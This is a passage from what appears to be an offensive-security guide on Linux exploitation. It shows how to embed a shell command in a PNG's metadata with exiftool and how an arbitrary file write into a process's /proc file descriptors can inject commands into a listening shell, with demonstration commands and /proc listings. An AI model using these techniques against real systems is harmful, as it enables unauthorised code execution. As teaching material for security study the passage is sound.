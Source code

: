 <pre class="language-bash"><code class="lang-bash"><strong>exiftool -Comment=$'\nid > /tmp/pwned\n' example.png
</strong># test it locally:
bash example.png
</code></pre>

### Sending Input

_Piped commands_ in Linux work by simply starting all given programs at the same time, and chaining their input and output streams together. The following command, for example, will connect `sleep`'s 1 (STDOUT) with `sh`'s 0 (STDIN):

```bash
sleep 999999 | sh
```

<pre class="language-shell-session" data-title="In another terminal"><code class="lang-shell-session"><strong>$ ls -l /proc/$(pidof sleep)/fd
</strong>lrwx------ 1 user user 0 -> /dev/pts/0
<strong>l-wx------ 1 user user 1 -> 'pipe:[22221]'
</strong>lrwx------ 1 user user 2 -> /dev/pts/0
<strong>$ ls -l /proc/$(pidof sh)/fd
</strong><strong>lr-x------ 1 user user 0 -> 'pipe:[22221]'
</strong>lrwx------ 1 user user 1 -> /dev/pts/0
lrwx------ 1 user user 2 -> /dev/pts/0
</code></pre>

With an arbitrary file write vulnerability, you can write to this pipe! This allows you to send input through to the receiving end of the pipe, which may process it insecurely. In this case of `sh`, it will execute any commands received through STDIN:

```bash
echo id > /proc/$(pidof sh)/fd/0
```

<pre class="language-shell-session" data-title="Receiving end"><code class="lang-shell-session">$ sleep 999999 | sh
<strong>uid=1000(user) gid=1000(user) groups=1000(user)
</strong></code></pre>

Apart from pipes, this same idea applies to opened **sockets**. Some programs will open sockets for communication between each other, but you can write to this too. If the receiving end handles these insecurely you may be able to execute code similar to what's shown above.

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ ls -l /proc/$(pidof node)/fd
</strong>lrwx------ 1 root root 64 Mar 11 19:46 0 -> /dev/null
l-wx------ 1 root root 64 Mar 11 19:46 1 -> 'pipe:[78136]'
lr-x------ 1 root root 64 Mar 11 19:46 10 -> 'pipe:[75187]'
l-wx------ 1 root root 64 Mar 11 19:46 11 -> 'pipe:[75187]'
lrwx------ 1 root root 64 Mar 11 19:46 12 -> 'anon_inode:[eventfd]'
lrwx------ 1 root root 64 Mar 11 19:46 13 -> 'anon_inode:[eventpoll]'
lr-x------ 1 root root 64 Mar 11 19:46 14 -> 'pipe:[81949]'
<strong>l-wx------ 1 root root 64 Mar 11 19:46 15 -> 'pipe:[81949]'
</strong>lrwx------ 1 root root 64 Mar 11 19:46 16 -> 'anon_inode:[eventfd]'
</code></pre>
